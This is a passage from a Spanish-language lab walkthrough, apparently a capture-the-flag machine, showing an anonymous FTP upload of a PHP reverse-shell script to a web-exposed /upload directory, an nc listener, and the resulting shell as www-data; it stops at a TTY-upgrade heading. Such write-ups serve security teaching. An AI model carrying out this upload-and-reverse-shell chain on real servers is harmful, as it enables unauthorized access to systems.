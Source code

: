 En particular, nos llama la atención el directorio `/upload`, sobre el cual tenemos todos los permisos.

Comprobamos si este directorio existe también en el puerto `80`.

![alt text](../images/upload3.png)

Efectivamente existe, aunque inicialmente no contiene ningún archivo.

Para explotarlo, creamos un `script` en `PHP` que nos proporcione una `reverse shell`. En este caso utilizamos la `php-reverse-shell` de Pentestmonkey disponible en GitHub.

A través de la sesión `anonymous` en `FTP` navegamos hasta el directorio `/upload` y subimos el script:

```bash
put shell.php
```

Info:
```
ftp> put shell.php 
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||38503|)
150 Ok to send data.
100% |***************************************|  5490        3.20 MiB/s    00:00 ETA
226 Transfer complete.
5490 bytes sent in 00:00 (2.85 MiB/s)
```

Una vez allí, colocamos un `listener` en nuestra máquina atacante

```bash
nc -nlvp 4444
```

A continuación, accedemos vía `HTTP` al directorio `/upload` para ejecutar el archivo.

Info:
```
connect to [10.0.4.12] from (UNKNOWN) [172.17.0.2] 55016
Linux 5f4ca3874341 6.12.38+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.38-1kali1 (2025-08-12) x86_64 x86_64 x86_64 GNU/Linux
 16:23:39 up  5:26,  0 user,  load average: 0.50, 0.38, 0.44
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

Con ello obtenemos una `reverse shell` como el usuario `www-data`.

# TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:
